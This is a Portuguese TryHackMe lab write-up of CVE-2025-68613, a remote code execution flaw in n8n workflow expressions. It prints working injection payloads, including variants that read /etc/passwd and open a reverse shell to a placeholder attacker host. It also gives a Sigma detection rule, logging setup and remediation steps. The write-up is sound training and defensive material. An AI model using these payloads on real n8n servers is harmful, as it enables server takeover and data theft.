






# 🚩 CVE-2025-68613 - n8n Expression Injection RCE

Write-up técnico da vulnerabilidade CVE-2025-68613, explorada durante o laboratório prático do TryHackMe. Esta falha afeta o n8n (plataforma de automação de workflows) permitindo Execução Remota de Código (RCE) por usuários autenticados.


## 📝 Descrição da Vulnerabilidade

A vulnerabilidade é uma **injeção de expressão JavaScript** no sistema de avaliação de workflows do n8n. O erro ocorre na falta de isolamento (sandboxing) do motor de execução de expressões envolvidas em chaves duplas `{{ }}`.

Isso permite que um atacante autenticado "escape" do contexto limitado e acesse o ambiente global do Node.js, executando comandos arbitrários no servidor com os privilégios do processo n8n.

### Versões Vulneráveis

- **n8n:** 0.211.0 até 1.120.3
- **Versões Corrigidas:** 1.120.4, 1.121.1, 1.122.0+

---

## 🎯 O que é n8n?

n8n é uma plataforma open-source de automação de fluxo de trabalho que permite conectar visualmente aplicações e serviços. É comumente usado para:

- Automatizar tarefas operacionais repetitivas
- Integrar ferramentas de segurança e plataformas SaaS
- Construir fluxos de trabalho complexos com 400+ integrações nativas

**Configurações típicas de implantação:**
1. **Instâncias auto-hospedadas** (on-premises ou nuvem privada)
2. **Hospedagem em nuvem** (serviço gerenciado n8n.cloud)
3. **Ferramentas de automação internas** (dentro de redes corporativas)

---

## 🚀 Exploração Passo a Passo

### 1. Preparação do Ambiente

**Acesso ao Lab:**
- **Target:** `http://MACHINE_IP:5678`
- **Credenciais:**
  - Email: `tryhackme@thm.local`
  - Senha: `Try12345!`

### 2. Criação do Workflow Malicioso

**Passo 1:** Acesse a instância n8n e faça login

**Passo 2:** Crie um novo workflow
- Clique em "Start from scratch" (Começar do zero)



**Passo 3:** Adicione um nó Manual Trigger
- Clique em "Add first step" (Adicionar primeiro passo)
- Busque e selecione "Manual Trigger"



**Passo 4:** Adicione um nó Edit Fields (Set)
- Anexe-o ao Manual Trigger
- Selecione a opção "Edit Fields (Set)"



### 3. O Payload Malicioso

**Passo 5:** Injete o payload de exploração

- Clique em "Add Field" (Adicionar Campo)
- Defina o nome: `exploit`
- Defina o valor com o payload:

```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```



### 4. Detalhamento do Payload

Vamos analisar cada componente do exploit:

#### Função Anônima Imediata
```javascript
(function(){ ... })()
```
Cria e executa imediatamente uma função anônima para encapsular a lógica do exploit.

#### Cadeia de Escalação de Contexto
```javascript
this.process.mainModule
```
- **`this`** → acessa o objeto global do Node.js
- **`process`** → global do Node.js fornecendo acesso a processos do sistema
- **`mainModule`** → referencia o módulo raiz, contornando restrições do sandbox

#### Carregamento de Módulo Perigoso
```javascript
.require('child_process')
```
Usa o `require()` do Node.js para carregar o módulo `child_process`, que **nunca deveria estar acessível** para expressões de usuários.

#### Execução de Comando
```javascript
.execSync('id')
```
Executa o comando `id` de forma síncrona, que exibe informações de identidade do usuário (UID, GID, grupos).

#### Recuperação de Saída
```javascript
.toString()
```
Converte a saída Buffer do `execSync()` para uma string legível.

### 5. Execução e Resultado

**Passo 6:** Execute e observe os resultados
- Clique em "Execute step" (Executar passo)
- A saída exibirá: `uid=1000(node) gid=1000(node) groups=1000(node)`



*Confirmação de execução remota de código - comando `id` executado com sucesso no servidor.*

---

## 🔧 Comandos Alternativos

Você pode substituir `id` por qualquer comando do sistema:

### Listar arquivos
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('ls -la').toString() })() }}
```

### Ler arquivos sensíveis
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('cat /etc/passwd').toString() })() }}
```



### Obter informações do sistema
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('uname -a').toString() })() }}
```

### Estabelecer reverse shell
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"').toString() })() }}
```

---

## 🛡️ Detecção e Mitigação

### Detecção via Regra Sigma

Regra para identificar tentativas de exploração via logs de proxy:

```yaml
title: Tentativa de RCE no N8N via Workflow
status: experimental
description: Detecta tentativas de injetar expressões JavaScript em payloads de workflow n8n que executam comandos do SO
author: TryHackMe Content Engineering Team
references:
  - https://github.com/wioui/n8n-CVE-2025-68613-exploit
date: 2025-12-23
tags:
  - attack.execution
  - attack.t1059.007
logsource:
  category: webserver
  product: generic
detection:
  selection:
    cs-method: POST
    cs-uri-stem|endswith: /rest/workflows
  keywords:
    - "this.process.mainModule.require('child_process')"
    - ".execSync("
    - "={{ (function(){"
    - "toString() })()"
  condition: selection and all of keywords
falsepositives:
  - Testes de segurança / simulações red team
  - Desenvolvedores armazenando essas strings exatas em campos logados
level: high
```

### Configuração de Logging no Proxy (nginx)

Para capturar requisições maliciosas, configure o nginx para logar o corpo das requisições:

```nginx
http {
    lua_package_path "/etc/nginx/lua/?.lua;;";
    
    log_format detailed '$remote_addr - $remote_user [$time_local] '
                       '"$request" $status $body_bytes_sent '
                       '"$http_referer" "$http_user_agent" '
                       'Request-Body: "$request_body" '
                       'Content-Type: "$http_content_type" '
                       'Duration: $request_time s';
}
```

### Monitoramento Pós-Exploração

Monitore execuções suspeitas de processos que podem indicar exploração:

- ✅ Estabelecimento de reverse shell
- ✅ Downloads de payloads maliciosos
- ✅ Comandos de reconhecimento (`whoami`, `id`, `uname`, `ls`, `ps`)
- ✅ Tentativas de escalação de privilégios
- ✅ Atividades de movimento lateral

**💡 Melhor Prática:** Correlacione detecções de logs web com eventos de criação de processos para cobertura abrangente.

---

## 🔧 Remediação

### Ações Imediatas

1. **Atualizar imediatamente** para as versões corrigidas:
   - ✅ n8n 1.120.4
   - ✅ n8n 1.121.1
   - ✅ n8n 1.122.0 ou posterior

2. **Audite workflows existentes** em busca de expressões suspeitas

3. **Revise logs de acesso** para indicadores de exploração

4. **Implemente segmentação de rede** para limitar o raio de impacto

### Mitigações de Longo Prazo

- Habilite sandboxing adequado para avaliação de expressões
- Implemente validação e sanitização de entrada rigorosa
- Aplique princípio do menor privilégio para processos n8n
- Implante regras de Web Application Firewall (WAF)
- Monitore padrões anômalos de execução de workflows

---

## 🔗 Referências e Ferramentas

- **TryHackMe Room:** [n8n CVE-2025-68613](https://tryhackme.com/)
- **PoC Original:** [wioui - n8n-CVE-2025-68613-exploit](https://github.com/wioui/n8n-CVE-2025-68613-exploit)
- **Documentação n8n:** [Logging & Monitoring](https://docs.n8n.io/hosting/logging-monitoring/)
- **Aviso de Segurança:** [n8n Security](https://n8n.io/security)
- **Burp Suite:** [PortSwigger](https://portswigger.net/burp) 

---

## ⚠️ Aviso Legal

Este conteúdo possui **fins exclusivamente educacionais** e foi realizado em ambiente controlado do TryHackMe. A exploração de vulnerabilidades em sistemas sem autorização é ilegal e pode resultar em consequências criminais.

---

## 👤 Autor

**[iceShaher]**
- TryHackMe: [@iceShaher](https://tryhackme.com/p/iceShaher)

